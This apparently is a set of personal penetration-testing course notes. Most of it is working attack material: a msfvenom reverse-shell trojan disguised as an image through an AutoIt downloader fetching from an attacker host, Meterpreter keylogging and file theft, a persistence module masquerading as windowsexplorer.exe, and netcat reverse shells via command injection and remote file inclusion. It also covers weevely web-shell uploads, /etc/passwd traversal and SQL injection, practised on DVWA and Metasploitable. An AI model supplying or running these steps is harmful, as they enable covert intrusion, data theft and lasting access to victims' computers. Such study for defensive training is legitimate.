


**Post Exploitation** 

How to create a trojan and then hide it in an image so that we can access a victim's computer. 

Making the trojan with MSFVenom:
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -f exe LHOST=<attacker-ip> LPORT=4444 -o /home/payloads/payload.exe
```
- If you wanted to use this on an external network you would add an external IP (public IP) and then setup port forwarding. in your router. 

Chat GPT or Bito (VSCode) code to download and execute a file:
```C
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2)

For $url in $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
	Local $hDownload, $sFile
	$sFile = StringRegExpReplace($sURL, "^.*/", "")
	$sDirectory = @TempDir & $sFile
	$hDownload = InetGet($sURL, $sDirectory, 17, 1)
	InetClose($hDownload)
	Return $sDirectory
EndFunc    ;==>_GetURLImage
```
- Name the file `autoit-file.txt`. When completed give it the extension `.au3`
- Add the URL as: `http://<attacker-ip>/payloads/image.jpg` and `http://<attacker-ip>/payloads/payload.exe`. Copy and paste the files path into the kali browser to make sure you have entered the correct path to file.
- Keep the Trojan and AutoIt file in the same location
- You can now use a tool, that was installed with Veil, to change the AutoIt file into an exe file. The tool is called: `Compile Script to .exe`



_AutoIt is a freeware programming language for Microsoft Windows. In its earliest release, it was primarily intended to create automation scripts for Microsoft Windows._

Add an icon to the file using an online website. Add the AutoIt file as the source. Compile for system x64 by ticking the box. Make the icon out of the same JPEG image that we used for the script, that way when it opens it just shows the same image as the icon. 

Open msfconsole and start a listener:

```sh
msfconsole
```

```sh
use exploit/multi/handler/reverse_tcp
```

Set Options and exploit to start the listener.

We can then test this by downloading the new file from our Windows VM. When the file is ran you'll receive a meterpreter session. 

---

**File control in meterpreter**

Upload file
```sh
upload example.png
```

Delete file
```sh
del example.png
```

Download file from victim's PC
```sh
download stolen-file.txt
```

Read sensitive files
```sh
cat passwords.txt
```

**Other meterpreter commands**

Drop into a normal shell
```sh
shell
```

Capture keyboard 
```sh
keyscan_start
```

Dump data from keyscan
```sh
keyscan_dump
```

Take screenshot
```sh
screenshot
```

---

**Create a More Sustainable Session**

Background the meterpreter session
```sh
background
```

Restore session
```sh
sessions <id>
```

After we background the session we can use a persistence module
```sh
use exploit/windows/local/persitence
```
- May need to set payload before this step 

Set options
```sh
options
```

```sh
set EXE_NAME windowsexplorer.exe
```

Set which session to use
```sh
set SESSION 1
```

Show advanced settings 
```sh
show advanced
```

Set custom exe
```sh
set EXE::Custom /<path-to-file>
```
- Here i would use: `/var/www/html/payloads/payload.exe`

Run the exploit
```sh
exploit
```

If we go back into the muli-handler and restart the computer, the listener should get a session back if the victim's PC is restarted.

It could take a few minutes for it to work. There is a way to hide our malicious process but i'll have to add in this later when i get on Kali and experiment with the course content.

---

**Ethical Hacker's Blueprint - Road to Success**

Six Phases: 
1. Reconnaissance
2. Scanning
3. Identifying Vulnerabilities
4. Gaining Access
5. Maintaining Access
6. Reporting

Reconnaissance:
1. Gathering Information Passively
2. Open Source Research

Scanning:
1. Active Information Gathering (nmap, nesus, netdiscover)

Identifying Vulnerabilities:
1. Analyse Scan Results and Search for Possible Vulnerabilities
2. Search Within Vulnerability Databases 
3. Attention to Details, OS Versions, Fixes, Patches, Open Ports etc

Gaining Access:
1. Gaining Access Using Previously Identified Vulnerabilities
2. Metasploit
3. Opening Sessions

Maintaining Access:
1. Sustaining the Session
2. Persistence
3. Migration (migrate processes)

Reporting:
1. Deleting Logs
2. Preparing Reports
3. Presenting Reports
 ---

**Advanced Information Gathering**

Tools: netcraft https://www.netcraft.com/

Netcraft will scan website URLs and provide a report. Enter the URL where it asks **What's that site running?** 

Provides the following information:
- Background
- Network
- IP details
- IP geolocation
- SSL/TLS
- And more useful information

Website crawlers:
dirb
gobuster

```sh
dirb <URL>
```

_These tools are covered in other sections of this obsidan file._

---

**Remote Code Execution (RCE)**

We can use the metasploitable VM to test this in the DVWA website. Here, under command execution, it allows the user to use the ping command. If we add a `;` after entering a ping command the bash shell will do another command of our choice.
For example:
```sh
google.com; ls
```

You can see that it executes both commands. You could easily get the system to execute a reverse shell, or search for sensitive files etc.

Start netcat on the Kali machine
```sh
nc -l -p 4444
```

On the DVWA site
```sh 
google.com; nc -e /bin/bash <attacker-ip> -p 4444
```
- e - Executes a shell (can also use sh)

Gather some basic info:
```sh
whoami
id
uname -a
```

**Upload Vulnerability**

You can upload a reverse shell. You can then navigate to the file which will execute the code. You need to have your listener ready to catch the shell.

I like to use PentesterMonkey Reverse PHP shell located in Kali > exploits > PHP. Here is some of his other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We can also use tools like weevely:
```sh
sudo weevely generate 12345 /shell.php
```
- 12345 - Attacker defined password
- /shell.php - Desired file location (would be put into the root directory)

The DVWA site gives you the exact location of where it stored our file but in a real website you would have to discover it yourself. You could look up what the site is running and then look online for possible default locations of stored upload files, for example.

You might get a blank screen but as long as it's not a `404` page should be okay. It just means that the website doesn't show anything for your PHP file.

Once you have the file location you can interact with it, again, using weevely.
```sh
weevely http://<website-url>/dvwa/hackable/uploads/shell.php 12345
```

You should get back a weevely shell. Type help to see a list of commands. You can also use standard Linux commands.

**File Inclusion Vulnerability**

If the website is using a GET request we can use it to access files that we wouldn't normally be able to access, like the `/etc/passwd` 

```sh
http://<website-ip>/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd 
```
- I'm using the website IP here because that's what the DVWA site looks like, otherwise you would just use the normal address. 
- We're also utilising directory traversal `../../`



**Include Vulnerability**

On the meatasploitable server we can check the `php.ini`file:
```sh
nano /etc/php5/cgi/php.ini
```
- We are looking for `allow_url_include = ON` 
- You can search in Nano by using `CTL+W <string> Enter`

Creating a pass-through function.php on Kali to grab from the dvwa site:
```php
<?php
passthru(*nc -e /bin/bash <attacker-ip> -p 4444*);
?>
```
- Now move the file to the Kali server `/var/www/html/file.php`

Make sure your Kali server is running so dvwa can get the file:
```sh
sudo service apache2 start
```

Now on the dvwa site we can modify the url to look like this:
```sh
http://<website-ip>/dvwa/vulnerabilities/fi/?page=http://<attacker-ip>/file.php
```
- You might need to add a `?` at the end of the URL so the website runs the PHP code.
- It may be required to turn it from a PHP file to a text file depending on what the server accepts, in that case you would need the `?`

Start a listener:
```sh
nc -l -p 4444
```

Now use the URL on the DVWA website to hopefully get the reverse shell.

---

**Managing and Manipulating MySQL**

What is MySQL?
MySQL, is the most popular open-source relational database management system.

Opening MySQL on the metasploitable machine:
```sh
mysql -u root
```

Connecting to a different machine's MySQL
```sh
mysql -u <username> <ip>
```

View databases
```sh
show databases
```

View row
```sh
use owasp10;
```

View tables
```sh
show tables;
```

View table
```sh
select * from accounts; 
```
- * - Everything

insert an entry into accounts
```sh
insert into accounts (usrername,password,mysignature) values("bob","pass123","test signature");
```
- It will display that the query is okay if everything was entered correctly.

Check the added entry
```sh
select * from accounts;
```

Delete the added entry using the `cid` number
```sh
delete from accounts where cid = 18;
```

How to update data
```sh
update accounts set username = "bob", password = "set123" where cid = 15;
```

Check entry
```sh
select * from accounts;
```

List specific parts of a table
```sh
selesct username from accounts;
```

List both username and password
```sh
select username,password from accounts;
```

List the admin password
```sh
select password from accounts where username = "admin";
```

What would a login look like?
```sh
select * from accounts where user = "admin" and password = "adminpass";
```
- This would login the admin user, but if one of the conditions was not true, like the password, you wouldn't be allowed to login.
- AND is asking "is this condition also true?"

What SQL injection would look like
```sh
select * from accounts where user = "adminSQL" and password = "adminpass" and 1 = 1;
```

If the database is very large you might have issues with `SELECT *` so you can narrow it down in these situations.
```sh
select username,password from accounts;
```

Using `ORDER BY`
```sh
select * from accounts order by cid;
```
- You can modify the table view by using either `asc` or `desc` after `cid`.
- You can order by anything else such as username.

```sh
select username,password from accounts order by username;
```

How a hacker uses order by to determine the amount of entries
```sh
select * from accounts where username = "admin" and password = "adminpass" order by 1;
```
- We know that the database on metasploitable currently has 16 rows in accounts so this command would work, but if you tried using 17 or more it would return an error.

Union 


